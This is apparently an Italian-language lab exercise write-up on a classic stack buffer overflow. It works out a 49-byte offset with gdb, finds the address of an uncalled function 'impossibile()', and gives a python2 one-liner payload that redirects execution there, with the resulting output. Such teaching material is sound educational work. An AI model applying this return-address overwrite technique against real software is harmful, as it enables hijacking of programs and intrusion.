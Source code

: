 - Il buffer inizia a `eax = 0xffffd59b` (dato dalla `lea -0x2d(%ebp), %eax`).
- `ebp = 0xffffd5c8`.

Allora:
```
offset  = ebp - eax
        = 0xffffd5c8 - 0xffffd59b
        = 45
```

**Attenzione**: questo offset di 45 byte ti porta fino al **saved EBP** (ovvero l'area dove si trova il vecchio EBP sullo stack). Ma per sovrascrivere il **return address**, devi superare anche quei 4 byte. Quindi:

```
45 (fino al saved EBP) + 4 (size of saved EBP) = 49
```

Per cui, **49 byte** di riempimento totali prima di iniziare a sovrascrivere l'indirizzo di ritorno.

## Indirizzo di `impossibile()`

Usiamo `disass impossibile` o `p impossibile` per scoprire dove si trova:
```gdb
(gdb) disass impossibile
...
   0x080484c4 <+0>: push %ebp
   ...

Indirizzo di inizio funzione: 0x080484c4
```

In esadecimale, `0x080484c4` in **little endian** si rappresenta come:
```
\xc4\x84\x04\x08
```

## Creazione del Payload

Costruiamo quindi un payload di:
1. **49 byte** di filler (per sovrascrivere il buffer e il saved EBP)
2. 4 byte con l’indirizzo di `impossibile()` in little endian.

Esempio:

```bash
python2 -c "print 'A'*49 + '\xc4\x84\x04\x08'" | ./esercizio3_1
```

### Risultato

Se tutto funziona, vedremo:
```
Inserisci la parola d'ordine:
Funzione mai invocata!
Segmentation fault
```
